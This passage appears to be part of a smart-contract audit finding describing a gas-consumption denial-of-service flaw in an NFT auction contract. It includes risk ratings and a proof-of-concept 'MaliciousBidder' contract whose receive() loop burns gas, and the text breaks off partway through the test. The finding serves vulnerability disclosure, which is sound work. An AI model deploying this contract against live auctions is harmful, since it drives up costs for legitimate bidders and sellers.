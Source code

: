 * This is a classic example of an **economic denial of service (EDoS) attack**, where the attacker exploits the gas consumption to make it economically unfeasible for others to participate in the auction.

## Risk

**Likelihood**: High

* This auction doesn't restrict contracts from bidding, making it easy for attackers to exploit this vulnerability.

**Impact**: High

* **Auction Manipulation**: Attackers can deter legitimate bidders, dominating auctions.
* **Financial Loss**:
    * **For Bidders**: Legitimate bidders may lose out on winning auctions due to high gas costs, and those who attempt to bid will pay exorbitant gas fees.
    * **For Sellers**: Sellers may receive lower final prices for their NFTs as fewer bidders participate.

## Proof of Concept

* Add this `MaliciousBidder` contract in the test file:

    ```solidity
    contract MaliciousBidder {
        BidBeastsNFTMarket public market;

        constructor(address _market) {
            market = BidBeastsNFTMarket(_market);
        }

        function bid(uint256 tokenId) public payable {
            market.placeBid{value: msg.value}(tokenId);
        }

        receive() external payable {
            // One of the ways to consume a lot of gas
            for (uint256 i = 0; i < 2435000; i++) {
                i * i;
            }
        }
    }
    ```

* After that, add this particular `test_dosAttackViaMaliciousContract` test in the test file:

    ```solidity
    function test_dosAttackViaMaliciousContract() public {
        // First, let's mint and list nft
        _mintNFT();
        _listNFT();

        // Set a gas price (trying to keep it realistic, one can easily pick the latest one from: https://etherscan.io/gastracker)
        uint256 currentGasPrice = 392000000; // 0.392 gwei in wei
        vm.txGasPrice(currentGasPrice);
